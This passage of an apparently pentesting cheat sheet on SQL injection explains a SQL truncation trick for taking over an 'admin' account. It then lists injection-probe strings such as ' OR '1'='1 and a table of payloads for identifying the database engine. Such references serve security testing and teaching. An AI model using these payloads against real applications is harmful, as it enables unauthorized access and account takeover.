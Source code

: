 So, instead of storing “admin++++++random’’ as an entry, the database will truncate the second half to fit it in the column (‘’admin +++++’’).

Next time an attacker logs in to the application with the admin account, the database will search for all matching accounts and will consider them valid for logging in. Therefore any entry with username as admin with space or without is a valid entry that can be used to authenticate to the application.

“admin” == ‘admin +++++’




# Identifying SQLi
```sql
'
"
#
;
)
' '
'||'
'+'
' AND '1'='1
' OR '1'='1
' -- -
' OR '1'='1;-- -
[space]-- -
[space]AND 1=1
[space]AND 1=1 -- -
```

* * *


# Identifying Variants

| Order | Payload                        | DBMS       |
|-------|--------------------------------|------------|
| 1     | AND 'foo' 'bar' = 'foobar'	   | MySQL      |
| 2     | AND DATALENGTH('foo') = 3      | MSSQL      |
| 3     | AND TO_HEX(1) = '1'            | PostgreSQL |
| 4     | AND LENGTHB('foo') = '3'       | Oracle     |
| 5     | AND GLOB('foo*', 'foobar') = 1 | SQLite     |

* * *

# List Databases
